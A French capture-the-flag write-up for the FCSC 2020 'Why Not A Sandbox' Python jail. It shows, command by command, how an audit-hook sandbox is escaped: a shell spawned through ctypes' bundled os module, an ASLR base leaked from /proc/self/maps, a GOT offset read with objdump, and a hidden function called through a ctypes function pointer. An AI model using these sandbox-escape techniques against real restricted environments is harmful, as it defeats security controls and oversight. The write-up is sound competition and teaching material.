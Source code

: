 <center><h1>FCSC 2020 - Why Not A Sandbox Writeup</h1></center>

<br>
<br>
<img src="https://img.onii.wtf/i/82w2m.png">


Très bien commençons par nous connecter au challenge

```
mizaru@DESKTOP-23T8VRF:~/sqlmap-dev/data/xml$ nc challenges1.france-cybersecurity-challenge.fr 4005                                                                     
Arriverez-vous à appeler la fonction print_flag
?                                                                                                                       
Python 3.8.3rc1 (default, Apr 30 2020,07:33:30)                                                                                                                         
[GCC 9.3.0] on linux
>>>  
```

Notre but est donc d'appeler la fonction print_flag, commençons

<br>
Essayons dans un premier temps d'importer le module os et pop un shell

```
>>> import os                                                                                                                                                        
Exception ignored in audit hook:                                                                                                                                        Exception: Action interdite                                                                                                                                       
Exception: Module non autorisé                                                                                                                                        Traceback (most recent call last
:                                                                                                                                        
File "<stdin>", line 1, in <module>                                                                                                                                   Exception: Action interdite 
```

Le module OS est donc interdit, essayons donc d'importer ctypes

```
>>> import ctypes                                                                                                                                          
>>>             
```

Comme nous le voyons, ctypes est autorisé. Essayons donc de pop un shell via ctypes (à savoir que ctypes embarque os avec lui)
```
>>> 
ctypes_os                                                                                                                                       
<module 'os' from '/usr/lib/python3.8/os.py'>
```

Utilisons donc execl pour pop notre shell:

```
>>> ctypes._os.execl("/bin/sh", "-i")                                                                                                                                   
-i: 0: can't access tty; job control turned off                                                                                                              
$ ls                                                                                                                          
lib_flag.so  spython
```

Nous avons pop notre shell, essayons d'importer lib_flag.so dans notre jail :)

```
>>> ctypes.cdll.LoadLibrary("lib_flag.so")                                                                                                                              
Exception: Nom de fichier interdit 
```

Très bien, au moins on est fixé sur ça, plus qu'a trouver comment appeler print_flag sans importer lib_flag.so !

Il nous faudrait donc le moyen de reconstituer l'adresse de print_flag, commençons par trouver l'adresse base de notre binaire spython
Essayons donc d'afficher le contenu de /proc/self/maps depuis notre jail.

```
>>> ctypes.__loader__.get_data("/proc/self/maps")                                                                                                                       
b'55c6a03cf000-55c6a03d0000 r--p 00000000 09:03 16782959
```

Voici donc notre adresse base, à noté que l'ASLR est activée donc qu'à chaque runtime, l'adresse base changera donc il faudra la récupérer.
<br><br>
Très bien récupérons maintenant l'offset de la fonction welcome dans la GOT
<br>
Pour la trouver, j'ai cloné le binaire sur mon ordinateur

<br>

Les premières informations que nous pouvons trouver sur le binaire est le fait que le binaire est strippé (donc qu'il ne contient pas de symboles)
```
mizaru@DESKTOP-23T8VRF:~/pyjail$ file application.bin                                                                                                                   
application.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=c08a5d78169fa47ba5dd1bb38a212aa7b7258212, for GNU/Linux 3.2.0, stripped
```

<br>

Très bien, commençons, essayons de lancer notre binaire
```
mizaru@DESKTOP-23T8VRF:~/pyjail$ ./application.bin                                                                                                                      
./application.bin: error while loading shared libraries: libpython3.8.so.1.0: cannot open shared object file: No such file or directory 
```

<br>
Evidemment x), nous n'avons pas les libraires nécessaires, très bien essayons de récupérer la GOT de notre binaire !
Un petit coup d'`objdump -R application.bin` et le tour est joué !

```
00000000000040A8 R_X86_64_JUMP_SLOT  welcome
```

Donc l'offset de la fonction de welcome est 0x40A8, essayons maintenant de l'ajouter à notre adresse base, pour cela il va falloir repartir sur notre jail et re-récupérer l'adresse base de notre binaire.

Donc, 0x557c01692000 + 0x40A8 = 0x557c016960A8

Créons un pointeur ! 

```
>>> welcome = 0x557c016960A8                                                                                                                                            >>> ptr = ctypes.POINTER(ctypes.c_int64)                                                                                                                                
>>> cast = ctypes.cast(welcome, ptr)                                                                                                                                    
>>> cast.contents                                                                                                                                                       
c_long(139694730159552)                                                                                                                                                
>>> hex(139694730159552)                                                                                                                                                '0x7f0d36c4a5c0'
```

Plus qu'à guess l'adresse de print_flag, je vous épargne :
print_flag = `0x7f0d36c4a529`

Plus qu'à call !

```
>>> calltype = ctypes.CFUNCTYPE(ctypes.c_void_p)                                                                                                                        
>>> call = calltype(0x7f46b046b129)                                                                                                                                     >>> call()                                                                                                                                                              
super flag: FCSC{55660e5c9e048d988917e2922eb1130063ebc1030db025a81fd04bda75bab1c3}                                                                                      timeout: the monitored command dumped core 
```

Entre temps les adresses ont changées, j'ai du redémarrer la jail suite à un timeout. Merci à Sheidan d'avoir proposé ce chall très (chiant) intéressant !
